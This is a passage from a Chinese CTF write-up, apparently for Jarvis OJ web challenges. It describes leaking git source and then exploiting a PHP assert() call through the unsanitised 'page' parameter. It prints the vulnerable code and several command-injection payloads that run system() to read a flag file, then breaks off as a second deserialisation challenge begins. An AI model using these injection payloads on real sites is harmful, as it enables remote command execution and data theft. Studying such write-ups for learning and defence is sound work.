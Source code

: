 于是想到会不会是git源码泄露

打开扫描器一扫发现确实是

于是直接 Githack 下载一波源码

发现了可以代码执行

```php
<?php
if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}
$file = "templates/" . $page . ".php";
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
assert("file_exists('$file')") or die("That file doesn't exist!");
?>
```

在 assert中 我们可以闭合一下引号 构造 payload

`','..')===false and system('cat templates/flag.php');//` 

那么原来的代码就是

```php
assert("strpos('"templates/','..')===false and system('cat templates/flag.php');//.php', '..') === false") or die("Detected hacking attempt!");
```

可以读取到flag

```
61dctf{8e_careful_when_us1ng_ass4rt}
```



当然看到了其他师傅的payload是这样的

```
http://web.jarvisoj.com:32798/?page='.system("tac templates/flag.php").'

http://web.jarvisoj.com:32798/?page=' and die(show_source('templates/flag.php')) or '

http://web.jarvisoj.com:32798/?page=/././')|system('tac templates/flag.php');//
```

 同样很强大



### phpinfo 

是一道很好的题目

题目上来直接给出了源码

```php
<?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
{
    public $mdzz;
    function __construct()
    {
        $this->mdzz = 'phpinfo();';
    }
    
    function __destruct()
```